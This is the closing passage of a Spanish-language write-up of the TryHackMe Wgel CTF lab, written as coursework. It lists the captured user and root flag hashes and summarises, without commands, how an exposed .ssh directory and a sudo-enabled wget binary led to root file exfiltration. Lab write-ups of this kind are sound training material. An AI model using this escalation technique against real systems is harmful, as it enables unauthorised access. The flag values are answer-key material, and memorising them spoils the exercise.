  
</div>
</details>

---

## 🚩 14. Flags Obtenidas

| Flag | Hash | Ruta |
|:----:|:-----|:-----|
| 🏳️ **Usuario** | `057c67131c3d5e42dd5cd3075b198ff6` | `/home/jessie/Documents/user_flag.txt` |
| 🏴 **Root** | `b1b968b37519ad1daa6408188649263d` | `/root/root_flag.txt` |

---

## ✅ 15. Conclusión

El recorrido por **Wgel CTF** materializa dos lecciones fundamentales del pentesting real:

**Sobre la enumeración:** La persistencia y el cambio de enfoque son determinantes. Las dos primeras pasadas con `gobuster` no revelaron el vector crítico. Fue la decisión de cambiar de wordlist (`dirb/common.txt`) y eliminar los filtros de extensión la que descubrió el directorio `.ssh` expuesto. Un pentester que se hubiera conformado con los primeros resultados habría declarado el servidor seguro erróneamente.

**Sobre la escalada:** Un binario tan cotidiano como `wget`, cuando se le concede la capacidad de ejecutarse como root sin contraseña, se convierte en un canal de exfiltración arbitraria de ficheros privilegiados. No hace falta un exploit complejo: basta con conocer GTFOBins, saber adaptar cuando el primer método falla, y pensar con lógica sobre qué puede hacer el binario con permisos elevados.

Esta room ha sido completada siendo primerizo en la disciplina. El proceso de pensamiento — los callejones sin salida, el formulario de contacto que no llevó a ningún lado, el `Jessie` con mayúscula que falló, el método GTFOBins que hubo que descartar — forma parte del aprendizaje real del pentesting, donde raramente el primer camino es el correcto.

### 📚 Bibliografía y Referencias

- [TryHackMe — Wgel CTF](https://tryhackme.com/room/wgelctf)
- [GTFOBins — wget](https://gtfobins.github.io/gtfobins/wget/)
- [Gobuster — GitHub](https://github.com/OJ/gobuster)
- [OWASP Top 10 2021](https://owasp.org/Top10/)
- [MITRE ATT&CK — TA0004 Privilege Escalation](https://attack.mitre.org/tactics/TA0004/)

---

<hr>
<p align="center">
  <i>Writeup elaborado como parte del módulo de Hacking Ético — Máster en Ciberseguridad.</i>
</p>
